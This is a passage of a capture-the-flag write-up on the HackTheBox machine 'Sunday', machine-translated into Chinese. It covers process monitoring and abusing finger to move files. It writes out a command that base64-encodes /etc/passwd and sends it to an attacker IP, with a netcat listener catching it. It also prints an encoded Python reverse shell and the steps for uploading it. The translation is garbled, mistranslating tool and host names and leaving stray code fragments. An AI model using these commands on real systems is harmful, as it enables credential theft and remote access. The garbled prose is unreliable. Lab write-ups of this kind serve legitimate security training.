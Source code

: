 
稍等片刻，我们偶尔会看到类似这样的东西：

    < /usr/gnu/bin/sleep 5                                                             15283
    > /usr/gnu/bin/sleep 5                                                             15319
    < /usr/gnu/bin/sleep 5                                                             15319
    > <defunct>                                                                        15355
    < <defunct>                                                                        15355
    > /usr/gnu/bin/sleep 5                                                             15357
    < /usr/gnu/bin/sleep 5                                                             15357
    > <defunct>                                                                        15393
    < <defunct>                                                                        15393
    > /usr/gnu/bin/sleep 5                                                             15394
    < /usr/gnu/bin/sleep 5                                                             15394
    > <defunct>                                                                        15429
    < <defunct>                                                                        15429
    > /usr/gnu/bin/sleep 5                                                             15431
    < /usr/gnu/bin/sleep 5                                                             15431
    > /usr/gnu/bin/sleep 5                                                             15467
    

如果脚本在计时方面很幸运，它将捕获从进程列表中删除并被添加的睡眠，然后在它返回睡眠后立即。该标记被分配给僵尸进程，其父进程尚未完全终止它们。在某些情况下，这些过程会徘徊不去。在这种情况下，这只是我们在进程完成后但在它完全退出之前捕获该过程。因为它已经终止，所以我们没有得到命令行。尽管如此，我们现在知道某些东西正在运行一个非常快的命令（或者可能是命令），然后休眠5秒钟。`<defunct>``<defunct>`

这是我能够实现的最好的，只要确定只有sammy访问就可以做什么。如果您有更好的想法，我很乐意在评论中听到它们。`overwrite`

### 用于文件传输的手指

在撰写这篇文章时，我正在查看[gfobins](https://gtfobins.github.io/)，他们的手指页面显示了如何将其用于文件传输。例如，要从星期日开始扩展密码文件，则侦听器在本地启动：

    root@sunday:~# finger "$(base64 /etc/passwd)"@10.10.14.5
    [10.10.14.5]
    

    root@kali:~/hackthebox/sunday-10.10.10.76# nc -lnvp 79 | base64 -d > passwd
    listening on [any] 79 ...
    connect to [10.10.14.5] from (UNKNOWN) [10.10.10.76] 54768
    
    root@kali:~/hackthebox/sunday-10.10.10.76# cat passwd
    root:x:0:0:Super-User:/root:/usr/bin/bash
    daemon:x:1:1::/:
    ...[snip]...
    

您也可以将文件上传到目标计算机：

    root@kali:~/hackthebox/sunday-10.10.10.76# cat shell.py | base64 | nc -lp 79
    

    root@sunday:~# finger x@10.10.14.5 > shell.b64
    

在这种情况下，生成的文件有一些IP信息，用换行符分隔，但我们可以清理它：

    root@sunday:~# cat  shell.b64
    [10.10.14.5]
    IyEvdXNyL2Jpbi9weXRob24KCmltcG9ydCBzb2NrZXQKaW1wb3J0IHN1YnByb2Nlc3MKaW1wb3J0IG9zCgpzPXNvY2tldC5zb2NrZXQoc29ja2V0LkFGX0lORVQsc29ja2V0LlNPQ0tfU1RSRUFNKQpzLmNvbm
    5lY3QoKCIxMC4xMC4xNC41Iiw0NDMpKQpvcy5kdXAyKHMuZmlsZW5vKCksMCkKb3MuZHVwMihzLmZpbGVubygpLDEpCm9zLmR1cDIocy5maWxlbm8oKSwyKQpwPXN1YnByb2Nlc3MuY2FsbChbIi9iaW4vc2gi
    LCItaSJdKTsK
    